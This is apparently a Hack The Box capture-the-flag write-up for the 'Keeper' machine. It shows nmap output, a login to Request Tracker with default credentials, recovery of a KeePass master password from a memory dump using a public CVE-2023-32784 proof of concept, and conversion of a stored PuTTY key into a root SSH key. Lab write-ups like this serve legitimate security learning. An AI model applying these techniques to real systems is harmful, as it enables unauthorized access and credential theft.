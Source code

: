 # Keeper

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 10.129.207.151          
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-13 22:12 +08
Warning: 10.129.207.151 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.207.151
Host is up (0.16s latency).
Not shown: 65393 closed tcp ports (conn-refused), 140 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

We can start proxying traffic through Burpsuite.

### Web Enumeration -> SSH Creds

Visiting the website itself shows a domain we need to add:

<figure><img src="../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

After adding to the `/etc/hosts` file, it brings us to a login page:

<figure><img src="../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

The website was running Best Practical Request Tracker (RT) 4.4.4, which is quite outdated. A bit of research reveals that `root:password` is the default password, which works here:

<figure><img src="../../.gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

There is 1 ticket present, and it's an issue regarding Keepass (with the box name being an obvious hint).&#x20;

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

The attachment has been removed. There's also mention of another user named `lnorgaard`. When we use the Admin panel to view all Users, there's a password located within the user's comments:

<figure><img src="../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

Using these creds, we can `ssh` in as the user:

<figure><img src="../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Keepass Dump -> CVE-2023-32784

Within the user's directory, there's one `zip` file present:

```
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt
```

Within it is the `.dmp` file for the Keepass client mentioned in the ticket earlier. I searched for Keepass exploits for 2023, and found this one:

{% embed url="https://sysdig.com/blog/keepass-cve-2023-32784-detection/" %}

This exploits allows us to get passwords from Keepass dump files, and there is one PoC for it:

{% embed url="https://github.com/vdohney/keepass-password-dumper" %}

We can clone the repository and clean it up a bit. Afterwards, use `scp` to transfer the file out:

```
scp lnorgaard@keeper.htb:~/KeePassDumpFull.dmp .
```

Then, in order to run the binary, I had to change the dependencies from `net7.0` to `net6.0` within the `.csproj` file:

```markup
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net6.0</TargetFramework>
    <ImplicitUsings>enable</ImplicitUsings>
    <Nullable>enable</Nullable>
  </PropertyGroup>

</Project>
```

Afterwards, we can use `dotnet run` to execute the program:

```
$ dotnet run KeePassDumpFull.dmp
Password candidates (character positions):
Unknown characters are displayed as "●"
1.:     ●
2.:     ,, l, `, -, ', ], A, I, :, =, _, c, M, 
3.:     d, 
4.:     g, 
5.:     r, 
6.:     ●
7.:     d, 
8.:      , 
9.:     m, 
10.:    e, 
11.:    d, 
12.:     , 
13.:    f, 
14.:    l, 
15.:    ●
16.:    d, 
17.:    e, 
Combined: ●{,, l, `, -, ', ], A, I, :, =, _, c, M}<REDACTEDSTRING>
```

This would produce a string at the end with some non-printable characters. Googling part of the string reveals a certain Danish dessert (based on the username of the user):

<figure><img src="../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

Using the name of the dessert, we can access the passwords within the `.kdbx` file:

```
$ kpcli --kdb=passcodes.kdbx 
Provide the master password: *************************

KeePass CLI (kpcli) v3.8.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> ls
=== Groups ===
passcodes/
```

### Keepass PPX Key -> Root SSH Key

There are quite a few entries within this Keepass instance:

```
kpcli:/passcodes> ls *
/passcodes/eMail:

/passcodes/General:

/passcodes/Homebanking:

/passcodes/Internet:

/passcodes/Network:
=== Entries ===
0. keeper.htb (Ticketing Server)                                          
1. Ticketing System                                                       

/passcodes/Recycle Bin:
=== Entries ===
2. Sample Entry                                               keepass.info
3. Sample Entry #2                          keepass.info/help/kb/testform.

/passcodes/Windows:
```

Within the `keeper.htb` entry, there's a key of some sorts, as well as a fake password for `root`:

```
kpcli:/passcodes/Network> show -f 0

Title: keeper.htb (Ticketing Server)
Uname: root
 Pass: <TRUNCATED>
  URL: 
Notes: PuTTY-User-Key-File-3: ssh-rsa
       Encryption: none
       Comment: rsa-key-20230519
       Public-Lines: 6
       AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
       <TRUNCATED>
```

This is a Putty User Key File, which can be converted back to an `ssh` key.&#x20;

{% embed url="https://superuser.com/questions/232362/how-to-convert-ppk-key-to-openssh-key-under-linux" %}

```
$ puttygen key.ppk -O private-openssh -o sshkey.rsa
$ cat sshkey.rsa 
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAp1arHv4TLMBgUULD7AvxMMsSb3PFqbpfw/K4gmVd9GW3xBdP
<TRUNCATED>
```

After running `chmod 600` on it, we can use this private key to `ssh` in as `root`:

<figure><img src="../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

`dotnet run` saves loads of time transferring files to a Windows machine. Rooted!&#x20;
